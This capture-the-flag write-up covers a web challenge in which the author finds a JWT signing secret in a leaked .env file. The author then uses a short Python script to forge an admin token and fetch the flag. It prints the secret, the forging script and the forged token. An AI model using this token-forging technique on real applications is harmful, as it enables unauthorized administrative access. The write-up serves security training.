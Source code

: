 # Jasons Baking Services

## Description
```
Hey intern! We were able to swipe Jasons application from Github, see if you can find anything useful in the code that will allow you to exploit the real application.

(Be ready to be flash-banged, the web-app is all white!)
```

## Writeup

We are provided the website link and also the files of the website. <br/>
![image](https://github.com/Aryt3/writeups/assets/110562298/5a0144fb-d74f-4ba0-8c27-46632921b8ee)

After logging in we can see that we have a cookie. <br/>
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiMTIzIiwiYXV0aG9yaXplZCI6dHJ1ZSwiYWRtaW4iOmZhbHNlLCJpYXQiOjE2OTg0ODA2OTksImV4cCI6MTY5ODQ4MDk5OX0.lHZvz6EJdExLvl99JRD4SCFP55Afh8NFKZ_m7lv4JCI
```

Deocding the cookie with base64 we receive. <br/>
```
{"alg":"HS256","typ":"JWT"}{"name":"123","authorized":true,"admin":false,"iat":1698480699,"exp":1698480999}...
```

Now I already knew that it looked like a json web token but now I know for sure. <br/>
Let's take a look at the source code. <br/>
```js
route.get('/flag', authenticateJson, (req, res) => {
    if (!req.user) {
        res.render('index')
    } else {
        if (req.user.admin == true) {
            res.send("// Print Flag Here")
        } else {
            res.render('dashboard', {name: req.user.name})
        }
    }
})

function authenticateJson(req, res, next) {
    console.log('Cookie: ', req.cookies['token'])
    const token = req.cookies['token'];
    if (token == null) return res.sendStatus(401)

    jwt.verify(token, process.env.SECRET, (err, user) => {
        if (err) {
            res.sendStatus(403)
        }
        req.user = user
        next()
    })
}
```

Also we found `https://spooky-jason-bakeshop-web.chals.io/flag` but can't access it because we receive a 401. <br/>
We do of course see some interesting functions but what interests me the most is the `.env` file. <br/>
```env
SECRET=y5ABWPpr76vyLjWxZQZvxpFZuprCwAZa6HhWaaDgS7WBEbzWWceuAe45htGLa
SECRET_REFRESH=y5ABWPpr76vyLjWxZQZvxpFZuprCwAZa6HhWaaDgS7WBEbzWWceuAe45htGLa
```

Because I have already worked with JWT I know that once you get the secret key you are basically able to forge your own tokens. <br/>
Coding a small python script to get a nice token with elevated permissions. <br/>
```py
import jwt

secret_key='y5ABWPpr76vyLjWxZQZvxpFZuprCwAZa6HhWaaDgS7WBEbzWWceuAe45htGLa'

payload = {
        'name': 'admin',
        'authorized': True,
        'admin': True
}

token = jwt.encode(payload, secret_key, algorithm='HS256')

print(token)
```

Once executed we receive the token below. <br/>
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJhdXRob3JpemVkIjp0cnVlLCJhZG1pbiI6dHJ1ZX0.7LsUVGaCPyS4GL6qIpu4qn3CAEQLXLnPwNWe1SvxUGA
```

Now we can just paste it into our cookie and reload the page `https://spooky-jason-bakeshop-web.chals.io/flag`. <br/>
Seems liek we got through and found the flag `NICC{jWoT_tOkeNs_nEed_saf3_secr3ts}`. 






